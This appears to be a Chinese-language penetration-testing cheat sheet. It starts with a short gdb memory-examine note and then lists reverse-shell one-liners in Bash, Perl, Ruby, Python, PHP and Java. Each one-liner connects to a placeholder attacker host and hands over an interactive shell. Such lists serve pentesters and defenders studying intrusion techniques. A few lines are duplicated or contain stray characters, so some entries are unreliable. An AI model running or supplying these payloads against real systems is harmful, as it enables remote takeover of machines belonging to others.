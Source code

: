 # 显示特定内存地址的值
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
```
BASH 反弹 Shell
```
bash -i >& /dev/tcp/X.X.X.X/443 0>&1

exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444

cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done

/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
```
PERL 反弹 Shell
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Win 平台
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
```
RUBY 反弹 Shell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Win 平台
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
PYTHON 反弹 Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
PHP 反弹 Shell
```
php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
JAVA 反弹 Shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])